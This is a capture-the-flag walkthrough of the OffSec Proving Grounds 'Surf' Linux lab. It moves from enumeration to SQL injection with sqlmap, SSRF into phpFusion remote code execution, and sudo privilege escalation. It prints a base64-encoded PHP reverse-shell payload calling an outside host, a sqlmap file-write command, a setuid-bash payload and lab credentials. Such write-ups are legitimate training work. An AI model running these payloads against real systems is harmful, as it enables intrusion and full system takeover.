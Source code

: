 # Surf

## Intro

Surf is a 'get to work' intermediate linux machine from offsec proving grounds.  

## Enum

### Nmap

All tcp port nmap scan.

```
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
```

### Directory fuzzing

The following directories were found.  

```
/js
/assets
/administration
/css
/server-status
```

The following directories and files were found in /administration.  

```
includes
login.php
logout.php
lib
config
assets
forms
customers.php
helpers
console.php
authenticate.php
admin_users.php
index.php
```

### Webroot file path

The following file path was found through an error message.  

`/var/www/server/administration/`


## Forms

The following form adds admin and super admin users.  

`/administration/forms/admin_users_form.php`


The following form adds customer data.  

`/administration/forms/customer_form.php`

The submit button for these forms do not go anywhere, manually creating a POST request is an option.  

Attempting to add an admin and super admin with the following curl command was unsuccessful.  

`curl -s -X 'POST' http://192.168.235.171/administration/forms/admin_users_form.php -d 'user_name=hacker&password=purple&admin_type=admin'`

`curl -s -X 'POST' http://192.168.235.171/administration/forms/admin_users_form.php -d 'user_name=hacker&password=purple&admin_type=super'`


## Customer page

When accessing /administration/customers.php it returns the page but with a 302 found and redirects to the login page.  
If this is caught in burp, the 302 can be changed to 200 and the page can be viewed in the browser.  

The following file is found in the source code.  

`add_customer.php?operation=create`

`export_customers.php`

`edit_customer.php?customer_id=2&operation=edit`

The /administration also can be changed as above.  

Possible sql injection on the sortby and desc search page, going to try again in the future as I have hit a wall with this machine.


## SQL injection

After finding a blind time based injection, the following super admin creds are retrieved using sqlmap.  

```
user: james
password: $2y$10$7y1lSqjchay03PgTMMW6a.wtR9CosWV4tLSaycUhcXQLvT.PJtiLm
```

Finding a writable directory with sqlmap.  

`sqlmap --url 'http://192.168.217.171/administration/customers.php?search_string=a&filter_col=id&order_by=Desc' -p 'filter_col' --file-write 'shell.php' --file-dest '/var/www/server/'`

So far, I have not been able to find a writable directory to get a sqlmap os shell or command.

## Password cracking

Using the following hashcat command.  

`hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt`


## User shell

After modifying the auth token to read success true, there is a check server functionality that suffers from SSRF.  

It states that phpfusion is the server running internally on 8080. This version is vulnerabile to RCE.  

```
php -r '$sock=fsockopen("192.168.45.186",4444);exec("/bin/sh -i<&3 >&3 2>&3");'  
cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE5Mi4xNjguNDUuMTg2Iiw0NDQ0KTtleGVjKCIvYmluL3NoIC1pPCYzID4mMyAyPiYzIik7JyAg
/infusions/downloads/downloads.php?cat_id=$\{system(base64_decode(cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE5Mi4xNjguNDUuMTg2Iiw0NDQ0KTtleGVjKCIvYmluL3NoIC1pPCYzID4mMyAyPiYzIik7JyAg)).exit\}
```
This payload can be added to the checkserver localhost url to get a reverse shell back.  


## Creds

Database credentials.

```
username: corephpadmin
password: FlyToTheMoon213!
```

These credentials work with the user james and ssh.  


## Priv Esc

After logging in with ssh on the user james account, the following is found after sudo -l command.  

```
(ALL) /usr/bin/php /var/backups/database-backup.php
```
This file is writable by www-data, so the following is written over the file by www-data and executed by james to gain root.  

```
<?php system('chmod +s /bin/bash'); ?>
```


